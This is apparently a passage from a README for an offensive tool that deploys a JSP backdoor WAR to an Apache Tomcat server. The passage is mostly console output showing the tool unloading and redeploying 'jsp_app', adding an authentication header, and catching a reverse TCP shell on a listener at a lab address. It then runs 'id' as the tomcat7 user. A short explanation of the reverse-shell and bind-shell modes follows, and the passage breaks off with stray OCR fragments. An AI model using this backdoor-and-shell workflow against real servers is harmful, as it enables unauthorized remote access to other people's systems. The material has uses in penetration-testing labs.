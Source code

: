 ```
└── index.jsp

3 directories, 3 files
WARNING: Application with name: "jsp_app" is already deployed.
DEBUG: Unloading existing one...
DEBUG: Unloading application: "http://192.168.56.100:8080/jsp_app/"
DEBUG: Succeeded.
DEBUG: Deploying application: jsp_app from file: "/tmp/jsp_app.war"
DEBUG: Removing temporary WAR directory: "/tmp/tmpDhzo9I"
DEBUG: Succeeded, invoking it...
DEBUG: Spawned shell handling thread. Awaiting for the event...
DEBUG: Awaiting for reverse-shell handler to set-up
DEBUG: Establishing listener for incoming reverse TCP shell at 192.168.56.102:4449
DEBUG: Socket is binded to local port now, awaiting for clients...
DEBUG: Invoking application at url: "http://192.168.56.100:8080/jsp_app/"
DEBUG: Adding 'X-Pass: oHI9mPB0mOnZ' header for shell functionality authentication.
DEBUG: Incoming client: 192.168.56.100:54251
INFO: JSP Backdoor up & running on http://192.168.56.100:8080/jsp_app/
INFO: Happy pwning. Here take that password for web shell: 'oHI9mPB0mOnZ'
DEBUG: Connected with the shell: tomcat7@canyoupwnme
jh
tomcat7@canyoupwnme $ id
uid=106(tomcat7) gid=114(tomcat7) groups=114(tomcat7)

tomcat7@canyoupwnme $ exit

```

The program will set-up a local listener for reverse-shell connection on the 192.168.56.102:4449 host (local host) as in the example above. Then, after invoking JSP Backdoor it will automatically connect with the local listener, resulting in shell being popped up. One can also skip `-H` parameter in order to go with _bind shell_ functionality, whereas rather then setting local listener - the program will go and connect with remotely listening bind-shell.
i
Finally, the above invocation will result in the following JSP application accessible remotely via WEB:

i